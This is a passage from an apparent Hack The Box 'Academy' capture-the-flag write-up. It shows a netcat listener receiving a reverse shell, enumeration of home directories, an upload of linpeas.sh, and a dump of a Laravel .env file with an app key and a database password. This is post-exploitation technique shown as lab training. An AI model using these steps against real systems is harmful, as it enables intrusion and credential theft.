 
I use the above command to get a better shell on my netcat listener:

```
root@kali:/home/kali/htb/Academy# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.119.7 58516
www-data@academy:/var/www/html/htb-academy-dev-01/public$ 
```

We have quite a number of home users:

```
www-data@academy:/home$ ls -la
ls -la
total 32
drwxr-xr-x  8 root     root     4096 Aug 10  2020 .
drwxr-xr-x 20 root     root     4096 Feb 10 13:12 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x  5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
www-data@academy:/home$ 

```

I upload linpeas.sh and the it discovers a plethora of database creds.

Eventually this one:

```
www-data@academy:/var/www/html/htb-academy-dev-01$ cat /var/www/html/academy/.env
</htb-academy-dev-01$ cat /var/www/html/academy/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
```